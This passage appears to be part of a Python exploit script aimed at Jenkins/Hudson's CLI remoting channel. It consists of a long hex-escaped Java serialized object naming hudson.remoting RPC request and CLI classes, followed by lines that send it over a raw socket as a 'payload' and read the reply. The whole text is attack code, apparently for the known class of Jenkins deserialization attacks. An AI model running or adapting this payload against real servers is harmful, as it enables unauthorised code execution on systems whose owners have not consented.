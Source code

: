 ```
\x30\x74\x00\x19\x4c\x68\x75\x64\x73\x6f\x6e\x2f\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2f\x43\x6f\x6d\x6d\x61\x6e\x64\x3b\x77\x04\x00\x00\x00\x00\x78\x72\x00\x13\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\xd0\xfd\x1f\x3e\x1a\x3b\x1c\xc4\x02\x00\x00\x77\x04\xff\xff\xff\xfd\x78\x72\x00\x13\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x54\x68\x72\x6f\x77\x61\x62\x6c\x65\xd5\xc6\x35\x27\x39\x77\xb8\xcb\x03\x00\x04\x4c\x00\x05\x63\x61\x75\x73\x65\x74\x00\x15\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x54\x68\x72\x6f\x77\x61\x62\x6c\x65\x3b\x4c\x00\x0d\x64\x65\x74\x61\x69\x6c\x4d\x65\x73\x73\x61\x67\x65\x71\x00\x7e\x00\x02\x5b\x00\x0a\x73\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x74\x00\x1e\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x3b\x4c\x00\x14\x73\x75\x70\x70\x72\x65\x73\x73\x65\x64\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x73\x74\x00\x10\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x4c\x69\x73\x74\x3b\x77\x04\xff\xff\xff\xfd\x78\x70\x71\x00\x7e\x00\x10\x70\x75\x72\x00\x1e\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x3b\x02\x46\x2a\x3c\x3c\xfd\x22\x39\x02\x00\x00\x77\x04\xff\xff\xff\xfd\x78\x70\x00\x00\x00\x0b\x73\x72\x00\x1b\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x61\x09\xc5\x9a\x26\x36\xdd\x85\x02\x00\x04\x49\x00\x0a\x6c\x69\x6e\x65\x4e\x75\x6d\x62\x65\x72\x4c\x00\x0e\x64\x65\x63\x6c\x61\x72\x69\x6e\x67\x43\x6c\x61\x73\x73\x71\x00\x7e\x00\x02\x4c\x00\x08\x66\x69\x6c\x65\x4e\x61\x6d\x65\x71\x00\x7e\x00\x02\x4c\x00\x0a\x6d\x65\x74\x68\x6f\x64\x4e\x61\x6d\x65\x71\x00\x7e\x00\x02\x77\x04\xff\xff\xff\xfd\x78\x70\x00\x00\x00\x43\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x43\x6f\x6d\x6d\x61\x6e\x64\x74\x00\x0c\x43\x6f\x6d\x6d\x61\x6e\x64\x2e\x6a\x61\x76\x61\x74\x00\x06\x3c\x69\x6e\x69\x74\x3e\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x32\x71\x00\x7e\x00\x15\x71\x00\x7e\x00\x16\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x63\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x52\x65\x71\x75\x65\x73\x74\x74\x00\x0c\x52\x65\x71\x75\x65\x73\x74\x2e\x6a\x61\x76\x61\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x02\x39\x74\x00\x32\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x52\x65\x6d\x6f\x74\x65\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x24\x52\x50\x43\x52\x65\x71\x75\x65\x73\x74\x74\x00\x1c\x52\x65\x6d\x6f\x74\x65\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x2e\x6a\x61\x76\x61\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x00\xf6\x74\x00\x27\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x52\x65\x6d\x6f\x74\x65\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x71\x00\x7e\x00\x1e\x74\x00\x06\x69\x6e\x76\x6f\x6b\x65\x73\x71\x00\x7e\x00\x13\xff\xff\xff\xff\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x24\x50\x72\x6f\x78\x79\x31\x70\x74\x00\x0f\x77\x61\x69\x74\x46\x6f\x72\x50\x72\x6f\x70\x65\x72\x74\x79\x73\x71\x00\x7e\x00\x13\x00\x00\x04\xe7\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x43\x68\x61\x6e\x6e\x65\x6c\x74\x00\x0c\x43\x68\x61\x6e\x6e\x65\x6c\x2e\x6a\x61\x76\x61\x74\x00\x15\x77\x61\x69\x74\x46\x6f\x72\x52\x65\x6d\x6f\x74\x65\x50\x72\x6f\x70\x65\x72\x74\x79\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x93\x74\x00\x0e\x68\x75\x64\x73\x6f\x6e\x2e\x63\x6c\x69\x2e\x43\x4c\x49\x74\x00\x08\x43\x4c\x49\x2e\x6a\x61\x76\x61\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x48\x74\x00\x1f\x68\x75\x64\x73\x6f\x6e\x2e\x63\x6c\x69\x2e\x43\x4c\x49\x43\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x46\x61\x63\x74\x6f\x72\x79\x74\x00\x19\x43\x4c\x49\x43\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x46\x61\x63\x74\x6f\x72\x79\x2e\x6a\x61\x76\x61\x74\x00\x07\x63\x6f\x6e\x6e\x65\x63\x74\x73\x71\x00\x7e\x00\x13\x00\x00\x01\xdf\x71\x00\x7e\x00\x2a\x71\x00\x7e\x00\x2b\x74\x00\x05\x5f\x6d\x61\x69\x6e\x73\x71\x00\x7e\x00\x13\x00\x00\x01\x86\x71\x00\x7e\x00\x2a\x71\x00\x7e\x00\x2b\x74\x00\x04\x6d\x61\x69\x6e\x73\x72\x00\x26\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x24\x55\x6e\x6d\x6f\x64\x69\x66\x69\x61\x62\x6c\x65\x4c\x69\x73\x74\xfc\x0f\x25\x31\xb5\xec\x8e\x10\x02\x00\x01\x4c\x00\x04\x6c\x69\x73\x74\x71\x00\x7e\x00\x0f\x77\x04\xff\xff\xff\xfd\x78\x72\x00\x2c\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x24\x55\x6e\x6d\x6f\x64\x69\x66\x69\x61\x62\x6c\x65\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x19\x42\x00\x80\xcb\x5e\xf7\x1e\x02\x00\x01\x4c\x00\x01\x63\x74\x00\x16\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x3b\x77\x04\xff\xff\xff\xfd\x78\x70\x73\x72\x00\x13\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x41\x72\x72\x61\x79\x4c\x69\x73\x74\x78\x81\xd2\x1d\x99\xc7\x61\x9d\x03\x00\x01\x49\x00\x04\x73\x69\x7a\x65\x77\x04\xff\xff\xff\xfd\x78\x70\x00\x00\x00\x00\x77\x04\x00\x00\x00\x00\x78\x71\x00\x7e\x00\x39\x78\x71\x00\x7e\x00\x08\x00\x00\x00\x00\x00\x00\x00\x00\x70\x00\x00\x00\x01\x75\x72\x00\x13\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x4f\x62\x6a\x65\x63\x74\x3b\x90\xce\x58\x9f\x10\x73\x29\x6c\x02\x00\x00\x77\x04\xff\xff\xff\xfd\x78\x70\x00\x00\x00\x01\x74\x00\x18\x68\x75\x64\x73\x6f\x6e\x2e\x63\x6c\x69\x2e\x43\x6c\x69\x45\x6e\x74\x72\x79\x50\x6f\x69\x6e\x74\x71\x00\x7e\x00\x24\x75\x72\x00\x13\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x72\x69\x6e\x67\x3b\xad\xd2\x56\xe7\xe9\x1d\x7b\x47\x02\x00\x00\x77\x04\xff\xff\xff\xfd\x78\x70\x00\x00\x00\x01\x74\x00\x10\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x4f\x62\x6a\x65\x63\x74\x74\x00\x1d\x52\x50\x43\x52\x65\x71\x75\x65\x73\x74\x28\x31\x2c\x77\x61\x69\x74\x46\x6f\x72\x50\x72\x6f\x70\x65\x72\x74\x79\x29'
print 'sending payload...'
sock.send(payload)
data = sock.recv(1024)
```